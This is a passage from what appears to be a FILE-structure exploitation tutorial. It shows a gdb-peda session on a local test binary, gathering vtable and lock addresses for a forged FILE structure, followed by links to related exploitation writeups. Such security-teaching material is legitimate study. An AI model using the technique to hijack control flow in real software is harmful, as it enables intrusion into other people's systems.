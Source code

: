 The `vtable` that I'll use is at `0xf7fac860`. Only one thing left for the FILE structure, which is `lock`:

```
$ gdb ./vuln -q
Reading symbols from ./vuln...done.
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048576 <+0>:     lea    ecx,[esp+0x4]
   0x0804857a <+4>:     and    esp,0xfffffff0
   0x0804857d <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048580 <+10>:    push   ebp
   0x08048581 <+11>:    mov    ebp,esp
   0x08048583 <+13>:    push   esi
[----snip----]
   0x08048655 <+223>:   lea    eax,[ebx-0x122d]
   0x0804865b <+229>:   push   eax
   0x0804865c <+230>:   push   DWORD PTR [ebp-0x1c]
   0x0804865f <+233>:   call   0x8048420 <fprintf@plt>
   0x08048664 <+238>:   add    esp,0x10
   0x08048667 <+241>:   sub    esp,0xc
   0x0804866a <+244>:   push   0x0
   0x0804866c <+246>:   call   0x80483f0 <exit@plt>
End of assembler dump.
gdb-peda$ b *main+233
Breakpoint 1 at 0x8048615: file vuln.c, line 24.
gdb-peda$ r abc
Starting program: /home/student/Research/FILE_struct_exp/vuln abc

[----------------------------------registers-----------------------------------]
EAX: 0x8048713 ("%s : %s\n")
EBX: 0x8049940 --> 0x8049854 --> 0x1 
ECX: 0xffffcf1c --> 0x0 
EDX: 0xffffcf18 ("^OY^")
ESI: 0xffffd050 --> 0x3 
EDI: 0x0 
EBP: 0xffffd038 --> 0x0 
ESP: 0xffffcf00 --> 0x804a160 --> 0xfbad3484 
EIP: 0x804865f (<main+233>:     call   0x8048420 <fprintf@plt>)
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048655 <main+223>:        lea    eax,[ebx-0x122d]
   0x804865b <main+229>:        push   eax
   0x804865c <main+230>:        push   DWORD PTR [ebp-0x1c]
=> 0x804865f <main+233>:        call   0x8048420 <fprintf@plt>
   0x8048664 <main+238>:        add    esp,0x10
   0x8048667 <main+241>:        sub    esp,0xc
   0x804866a <main+244>:        push   0x0
   0x804866c <main+246>:        call   0x80483f0 <exit@plt>
Guessed arguments:
arg[0]: 0x804a160 --> 0xfbad3484 
arg[1]: 0x8048713 ("%s : %s\n")
arg[2]: 0xffffd2e4 --> 0x636261 ('abc')
arg[3]: 0xffffcf18 ("^OY^")
[------------------------------------stack-------------------------------------]
0000| 0xffffcf00 --> 0x804a160 --> 0xfbad3484 
0004| 0xffffcf04 --> 0x8048713 ("%s : %s\n")
0008| 0xffffcf08 --> 0xffffd2e4 --> 0x636261 ('abc')
0012| 0xffffcf0c --> 0xffffcf18 ("^OY^")
0016| 0xffffcf10 --> 0xf7fd0110 --> 0xf7dd9000 --> 0x464c457f 
0020| 0xffffcf14 --> 0xf7fdf73d (add    esp,0x20)
0024| 0xffffcf18 ("^OY^")
0028| 0xffffcf1c --> 0x0 
[------------------------------------------------------------------------------]
```

[link-1]: https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/
[link-2]: https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
[link-3]: https://blog.bushwhackers.ru/tokyo2019-printf/
[link-4]: http://docs.pwntools.com/en/stable/